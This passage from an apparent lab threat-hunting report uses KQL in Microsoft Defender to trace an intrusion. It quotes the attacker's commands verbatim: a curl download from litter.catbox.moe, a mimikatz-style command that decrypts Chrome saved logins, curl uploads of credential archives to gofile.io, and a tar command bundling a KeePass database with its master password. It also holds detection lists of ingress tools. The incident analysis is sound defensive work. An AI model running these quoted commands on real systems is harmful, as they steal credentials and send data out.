| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Collection | Archive Collected Data: Archive via Utility | T1560.001 |

### Confirmed Finding
`8 unique archives`

---

## Finding 20 — Additional Credential Theft Tool Downloaded

### Objective
Identify the command used to download additional credential-theft tooling.

### Finding Summary
The attacker reused `litter.catbox.moe` and `curl.exe` to retrieve a second archive named `m-temp.7z`.

### Investigation Approach
`DeviceProcessEvents` was searched broadly for utilities capable of transferring or retrieving files after the initial malware deployment.

### Query / Search Used

**KQL Name: `Additional Ingress Tool Transfer`**

```kusto
let IngressTools = dynamic([
    "certutil.exe", "bitsadmin.exe", "curl.exe", "wget.exe",
    "powershell.exe", "pwsh.exe", "cmd.exe", "ftp.exe",
    "tftp.exe", "scp.exe", "sftp.exe", "rsync.exe",
    "finger.exe", "hh.exe", "msiexec.exe", "mshta.exe",
    "rundll32.exe", "regsrv32.exe", "csc.exe", "vbc.exe",
    "bash.exe", "wsl.exe", "python.exe", "pip.exe",
    "certreq.exe", "expand.exe", "extrac32.exe", "esentutl.exe"
]);
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25T04:37:33.9829582Z) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where ProcessCommandLine has_any (IngressTools)
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence
`"curl.exe" -L -o m-temp.7z https://litter.catbox.moe/mt97cj.7z`


### Analysis
The attacker reused the same file-hosting infrastructure identified earlier. Because `curl.exe` was already explained in Finding 5, the important difference here is the new payload, `m-temp.7z`, which supported the credential-access phase.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Command and Control | Ingress Tool Transfer | T1105 |

### Confirmed Finding
`"curl.exe" -L -o m-temp.7z https://litter.catbox.moe/mt97cj.7z`

---

## Finding 21 — Browser Credential Theft

### Objective
Identify the command used to extract saved browser credentials.

### Finding Summary
An interesting exfiltration artifact, `chrome-session-theft.tar.gz`, provided the clue that Chrome-related data had been collected. The investigation pivoted backward through the surrounding process timeline and identified `m.exe` targeting Chrome’s `Login Data` database.

### Investigation Approach
`DeviceProcessEvents` was reviewed between `05:50` and `05:57 UTC` to reconstruct the activity immediately before the Chrome-related archive was created and uploaded.


### Query / Search Used


**KQL Name: `Chrome Credential Theft Timeline`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25T05:50:00Z) .. datetime(2025-11-25T05:57:00Z))
| where DeviceName == "azuki-adminpc"
| where AccountName == "yuki.tanaka"
| project TimeGenerated, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by TimeGenerated asc
```

### Evidence


```text
05:55:34  curl.exe  → downloaded m-temp.7z
05:55:44  7z.exe    → extracted m-temp.7z
05:55:54  m.exe     → targeted Chrome Login Data
05:56:42  tar.exe   → created chrome-session-theft.tar.gz
05:56:50  curl.exe  → uploaded the archive
```

Credential-theft command:

```text
"m.exe" privilege::debug "dpapi::chrome /in:%localappdata%\Google\Chrome\User Data\Default\Login Data /unprotect" exit
```

### Command / Artifact Context
Chrome stores saved-login information in a database named `Login Data` within the user profile. Windows DPAPI (Data Protection API) protects sensitive information using keys associated with a user or system. The `dpapi::chrome` module targeted Chrome’s protected login data and attempted to unprotect it within the compromised user context.

### Analysis
The attacker downloaded purpose-built credential tooling, extracted it, targeted Chrome saved-login data, archived the resulting collection, and uploaded it within a narrow time window.

### Security Impact
Browser credential theft can expose authentication data for internal applications, external services, and other accounts without requiring LSASS-focused credential dumping.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Credential Access | Credentials from Web Browsers | T1555.003 |

### Confirmed Finding
`"m.exe" privilege::debug "dpapi::chrome /in:%localappdata%\Google\Chrome\User Data\Default\Login Data /unprotect" exit`

---

## Findings 22–23 — Data Exfiltration to Cloud Storage

### Objective
Identify how the staged archives were uploaded and which external file-sharing service received them.

### Finding Summary
`curl.exe` performed multipart HTTP POST uploads to `store1.gofile.io`, confirming `gofile.io` as the exfiltration service.

### Investigation Approach
`DeviceProcessEvents` was filtered for `curl.exe` commands containing HTTP POST and file-upload parameters.

### Query / Search Used

**KQL Name: `Cloud Storage Exfiltration`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where FileName =~ "curl.exe"
| where ProcessCommandLine has_any ("-X POST", "-F file=@", "gofile.io")
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence
`"curl.exe" -X POST -F file=@credentials.tar.gz https://store1.gofile.io/uploadFile`

Additional staged archives were uploaded through the same endpoint.

### Command Context
For this use of `curl.exe`, `-X POST` sends an HTTP POST request, `-F file=@credentials.tar.gz` attaches the local archive as multipart form data, and `store1.gofile.io/uploadFile` is the remote upload endpoint.

### Analysis
The attacker used a legitimate web client and public file-sharing service to transfer collected archives over normal web traffic.

### Security Impact
Public cloud/file-sharing services can make exfiltration resemble ordinary outbound HTTPS activity and reduce the value of simple domain-category controls.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Exfiltration | Exfiltration Over Web Service | T1567 |
| Exfiltration | Exfiltration to Cloud Storage | T1567.002 |

### Confirmed Findings
`"curl.exe" -X POST -F file=@credentials.tar.gz https://store1.gofile.io/uploadFile`  
`gofile.io`

---

## Finding 24 — Exfiltration Server IP Identified

### Objective
Identify the external IP address associated with the exfiltration connection.

### Finding Summary
`DeviceNetworkEvents` correlated the `gofile.io` upload command with the external destination `45.112.123.227`.

### Investigation Approach
Successful network connections initiated by the upload process were reviewed. Loopback traffic (`127.0.0.1` / `::1`) was excluded because it represented local host communication rather than the external destination.

### Query / Search Used

**KQL Name: `Exfiltration Destination IP`**

```kusto
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-11-25) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where InitiatingProcessAccountName == "yuki.tanaka"
| where InitiatingProcessCommandLine contains "gofile.io"
| where ActionType == "ConnectionSuccess"
| where RemoteIP !in ("127.0.0.1", "::1")
| project TimeGenerated, ActionType, InitiatingProcessCommandLine, LocalIP, RemoteUrl, RemoteIP
```

### Evidence

```text
LocalIP: 10.1.0.108
RemoteUrl: store1.gofile.io
RemoteIP: 45.112.123.227
```

### Network Field Context
`LocalIP` identifies the address used by the monitored endpoint for the connection. `RemoteIP` identifies the other endpoint in that network connection. `InitiatingProcessRemoteSessionIP`, when present, describes the source IP of a remote session associated with the initiating process; it is not the same as the external destination.

### Analysis
The externally routed event tied the upload activity to `45.112.123.227`. The localhost events were valid telemetry but did not represent the external server receiving the data.

### Security Impact
The destination IP provides a network-layer IOC for threat-intelligence correlation, retrospective hunting, and blocking.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Exfiltration | Exfiltration Over C2 Channel | T1041 |

### Confirmed Finding
`45.112.123.227`

---

## Finding 25 — KeePass Master Password Artifact Identified

### Objective
Identify the file containing the KeePass master password during the attacker’s credential collection activity.

### Finding Summary
The attacker’s credential archive command explicitly selected `KeePass-Master-Password.txt` alongside `Azuki-Passwords.kdbx`, tying the master-password artifact directly to the credential collection phase.

### Investigation Approach
The original file-event search did not expose the artifact within the defined attack window. The investigation pivoted to `DeviceProcessEvents` and reviewed the command that created `credentials.tar.gz`, which referenced the credential files directly.

### Query / Search Used

**KQL Name: `KeePass Credential Archive Contents`**

```kusto
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-24) .. datetime(2025-11-26))
| where DeviceName == "azuki-adminpc"
| where ProcessCommandLine contains "credentials.tar.gz"
| project TimeGenerated, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName
| order by TimeGenerated asc
```

### Evidence
At `2025-11-25T04:39:16.3816536Z`:

```text
"tar.exe" -czf credentials.tar.gz Azuki-Passwords.kdbx KeePass-Master-Password.txt
```

### Artifact Context
KeePass protects credentials inside an encrypted `.kdbx` database. A master password is the primary secret used to unlock that database. The significance of this finding is the pairing of the encrypted database with a file explicitly identified as its master password.

### Analysis
The process telemetry confirmed that both KeePass-related artifacts were intentionally included in the attacker’s credential archive during the defined Nov. 24–26 attack window.

### Security Impact
Collecting both the encrypted password database and its associated master-password artifact creates a high risk of broader credential exposure because a single database may contain credentials for multiple systems and services.

### MITRE ATT&CK Mapping

| Tactic | Technique | ATT&CK ID |
| --- | --- | --- |
| Credential Access | Credentials from Password Stores | T1555.005 |

### Confirmed Finding
`KeePass-Master-Password.txt`

---

# 6. MITRE ATT&CK Mapping

The table below consolidates the techniques observed throughout the investigation. Definitions are kept here rather than repeated in every finding.

| Tactic | Technique | ATT&CK ID | Supporting Evidence |
| --- | --- | --- | --- |
| Resource Development | Stage Capabilities: Upload Malware | T1608.001 | Malware hosted at `litter.catbox.moe` |
| Lateral Movement | Remote Services: Remote Desktop Protocol | T1021.001 | `10.1.0.204` → `azuki-adminpc`, `RemoteInteractive` |
| Command and Control | Ingress Tool Transfer | T1105 | `curl.exe` downloaded `KB5044273-x64.7z` and `m-temp.7z` |
| Defense Evasion | Deobfuscate/Decode Files or Information | T1140 | Password-protected archive extracted with `7z.exe` |
| Execution | Command and Scripting Interpreter | T1059 | Meterpreter / PowerShell-driven attacker execution |
| Command and Control | Internal Proxy | T1090.001 | `\Device\NamedPipe\msf-pipe-5902` |
| Defense Evasion | Obfuscated Files or Information | T1027 | Base64-encoded PowerShell |
| Persistence | Create Account: Local Account | T1136.001 | `yuki.tanaka2` created and elevated |
| Discovery | System Owner/User Discovery | T1033 | `qwinsta` |
| Discovery | Domain Trust Discovery | T1482 | `nltest.exe /domain_trusts /all_trusts` |
| Discovery | System Network Connections Discovery | T1049 | `NETSTAT.EXE -ano` |
| Credential Access | Unsecured Credentials: Credentials In Files | T1552.001 | `.kdbx` search, `OLD-Passwords.lnk` |
| Collection | Data Staged: Local Data Staging | T1074.001 | `C:\ProgramData\Microsoft\Crypto\staging` |
| Collection | Automated Collection | T1119 | `Robocopy.exe` copied Banking documents |
| Collection | Archive Collected Data: Archive via Utility | T1560.001 | 8 unique staged archives |
| Credential Access | Credentials from Web Browsers | T1555.003 | `m.exe ... dpapi::chrome ...` |
| Credential Access | Credentials from Password Stores | T1555.005 | `KeePass-Master-Password.txt` + `Azuki-Passwords.kdbx` |
| Exfiltration | Exfiltration Over Web Service | T1567 | `curl.exe` HTTP POST uploads |
| Exfiltration | Exfiltration to Cloud Storage | T1567.002 | `gofile.io` |
| Exfiltration | Exfiltration Over C2 Channel | T1041 | External transfer to `45.112.123.227` |

## MITRE ATT&CK Flow

| Access / Execution | Discovery / Credential Access | Collection / Exfiltration |
| --- | --- | --- |
| **Remote Desktop Protocol** — T1021.001<br>↓<br>**Ingress Tool Transfer** — T1105<br>↓<br>**Deobfuscate/Decode Files** — T1140<br>↓<br>**Obfuscated Files or Information** — T1027<br>↓<br>**Create Account: Local Account** — T1136.001 | **System Owner/User Discovery** — T1033<br>↓<br>**Domain Trust Discovery** — T1482<br>↓<br>**System Network Connections Discovery** — T1049<br>↓<br>**Credentials In Files** — T1552.001<br>↓<br>**Browser / Password Store Credentials** — T1555.003 / T1555.005 | **Local Data Staging** — T1074.001<br>↓<br>**Automated Collection** — T1119<br>↓<br>**Archive Collected Data** — T1560.001<br>↓<br>**Exfiltration Over Web Service** — T1567<br>↓<br>**Exfiltration to Cloud Storage** — T1567.002 |

---

# 7. After-Action Recommendations

## Immediate Actions

| Recommendation | Reason | Priority |
| --- | --- | --- |
| Isolate `azuki-sl` and `azuki-adminpc` | Prevent additional attacker activity and preserve evidence | 🔴 **Critical** |
| Disable/reset `yuki.tanaka` and remove/disable `yuki.tanaka2` | Both identities are tied to confirmed attacker access | 🔴 **Critical** |
| Rotate credentials stored in the affected KeePass database and Chrome profile | Credential artifacts were collected and prepared for exfiltration | 🔴 **Critical** |
| Block `litter.catbox.moe`, `gofile.io`, and `45.112.123.227` where operationally appropriate | Infrastructure was used for tool delivery and exfiltration | 🟠 **High** |
| Quarantine `meterpreter.exe`, `m.exe`, `KB5044273-x64.7z`, `m-temp.7z`, and related artifacts after evidence preservation | Remove confirmed attacker tooling | 🟠 **High** |
| Preserve and review `C:\ProgramData\Microsoft\Crypto\staging` and its archives | Determine the full scope of collected and potentially exfiltrated data | 🟠 **High** |
| Hunt across AZUKI systems for `\Device\NamedPipe\msf-pipe-5902` and related Metasploit-style pipes | Identify additional C2 or lateral activity | 🟠 **High** |
| Review other endpoints for connections to the identified hosting and exfiltration infrastructure | Determine whether the compromise extended beyond the confirmed systems | 🟡 **Medium** |

## Remediation / Hardening

- Remove unauthorized local administrator accounts and review membership of privileged local groups.
- Rotate credentials that may have been stored in `Azuki-Passwords.kdbx` or Chrome.
- Reduce plaintext or shortcut-based password storage and enforce approved credential-management practices.
- Restrict unnecessary outbound access to anonymous file-hosting services where business requirements allow.
- Apply least privilege to administrative workstations and reduce reusable privileged credentials across endpoints.
- Review RDP access controls and limit lateral RDP paths between user and administrative systems.
- Protect browser credential stores by minimizing saved privileged credentials on administrative endpoints.

## Detection Improvements

Create or tune detections for:

- Successful `RemoteInteractive` logons originating from previously compromised hosts.
- Encoded PowerShell followed by `net user` or local Administrators-group modification.
- `curl.exe` downloading archives from public file-hosting services.
- Password-protected archive extraction into Windows or ProgramData paths.
- Suspicious named-pipe patterns such as `msf-*`.
- `qwinsta`, `nltest`, and `netstat -ano` executed unexpectedly on administrative workstations.
- Recursive searches for `.kdbx`, password files, or credential-related filenames.
- Bulk `Robocopy` activity into unusual `ProgramData` staging paths.
- Creation of multiple archive files in local staging directories.
- `curl.exe -X POST -F file=@...` uploads to external file-sharing services.
- Browser credential tooling accessing Chrome `Login Data`.

---

# 8. Conclusion

The AZUKI BRIDGE TAKEOVER investigation confirmed that the previously compromised `azuki-sl` workstation was used as a lateral-movement source to access `azuki-adminpc` through RDP with the compromised `yuki.tanaka` account.

Once on the administrative workstation, the attacker delivered a password-protected tool archive, extracted a Meterpreter implant, established named-pipe communication, and created a privileged backdoor account. Native Windows utilities were then used to enumerate sessions, domain trusts, and network connections while the attacker searched for password-manager databases and credential-related artifacts.

The attacker staged sensitive information beneath `C:\ProgramData\Microsoft\Crypto\staging`, automated the collection of banking documents with `Robocopy`, and prepared multiple archives for transfer. Additional credential tooling targeted Chrome saved-login data, while KeePass-related artifacts were bundled into `credentials.tar.gz`.

The investigation ultimately confirmed outbound exfiltration to `gofile.io`, with `45.112.123.227` identified as the external server IP associated with the transfer.

The investigation confirmed activity across the following stages:

| Phase 1 | Phase 2 | Phase 3 |
| --- | --- | --- |
| **RDP Lateral Movement**<br>↓<br>**Malware Delivery**<br>↓<br>**Archive Extraction**<br>↓<br>**C2 Establishment** | **Privileged Persistence**<br>↓<br>**Session / Domain / Network Discovery**<br>↓<br>**Credential Discovery**<br>↓<br>**Credential Access** | **Local Data Staging**<br>↓<br>**Automated Collection**<br>↓<br>**Archive Creation**<br>↓<br>**Cloud Exfiltration** |

One of the most important lessons from the investigation was the value of **cross-table correlation**. Several findings were not obvious from a single telemetry source. The attack became clear by pivoting between authentication, process, file, device, and network events.

```text
DeviceLogonEvents
        ↓
Lateral Movement Confirmed
        ↓
DeviceProcessEvents
        ↓
Malware / Discovery / Credential Activity
        ↓
DeviceFileEvents
        ↓
Staging / Collection / Archive Artifacts
        ↓
DeviceNetworkEvents
        ↓
External Exfiltration Destination
```

This threat hunt demonstrated practical experience with:

| | |
|---|---|
| • Microsoft Defender Advanced Hunting | • KQL |
| • Endpoint analysis | • Authentication-event correlation |
| • Process analysis | • File analysis |
| • Network investigation | • Credential-access analysis |
| • Threat hunting | • Timeline reconstruction |
| • IOC extraction | • MITRE ATT&CK mapping |
| • Behavioral analysis | • SOC incident reporting |

The investigation objective was **successfully met**.

Available telemetry allowed the analyst to identify:

- The lateral-movement source, account, and destination.
- Malware delivery and command-and-control artifacts.
- Privileged persistence and discovery behavior.
- Credential-access and sensitive-data collection activity.
- The local staging directory and archive set.
- The exfiltration service and destination IP.
